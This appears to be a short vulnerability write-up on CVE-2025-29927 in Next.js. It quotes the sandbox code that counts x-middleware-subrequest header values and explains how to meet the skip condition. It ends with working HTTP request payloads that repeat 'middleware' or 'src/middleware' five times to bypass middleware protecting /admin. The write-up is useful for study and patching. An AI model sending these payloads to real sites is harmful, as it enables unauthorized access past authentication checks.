```tsx
// https://github.com/vercel/next.js/blob/v15.2.2/packages/next/src/server/web/sandbox/sandbox.ts#L105

const run = withTaggedErrors(async function runWithTaggedErrors(params) {
    var _params_request_body;
    const runtime = await getRuntimeContext(params);
    const subreq = params.request.headers[`x-middleware-subrequest`];
    const subrequests = typeof subreq === 'string' ? subreq.split(':') : [];
    const MAX_RECURSION_DEPTH = 5;
    const depth = subrequests.reduce((acc, curr)=>curr === params.name ? acc + 1 : acc, 0);
    if (depth >= MAX_RECURSION_DEPTH) {
        return {
            waitUntil: Promise.resolve(),
            response: new runtime.context.Response(null, {
                headers: {
                    'x-middleware-next': '1'
                }
            })
        };
    }
    // .....
```

This part causes `CVE-2025-29927`. To start with, you can ignore middleware if you enter the conditional statement. For this, the following conditions must be met.

- Request with `x-middleware-subrequest` header
- Array length parsed based on header value `:` should be at least **5**
- The value of each array must be equal to the value of `params.name`

1. If the `x-middleware-subrequest` header exists, its value is split by `:` and stored in `subrequests`

   ```
   x-middleware-subrequest: aaa:bbb:ccc
   subrequests -> ['aaa', 'bbb', 'ccc']
   ```

1. Check how many values `params.name` match each value in the `subrequests` array, and store the number of matches in the depth variable. `params.name` is the path of middleware. After Next.js version 13, it becomes either `middleware` or `src/middleware`.

1. Therefore, the final payload is based on Next.js version 13 and later, as we need to have at least 5 `params.name` values in the array:

   ```
   GET /admin HTTP/1.1
   x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware

   // if "middleware.js" or "middleware.ts" is in src/ folder
   GET /admin HTTP/1.1
   x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware
   ```
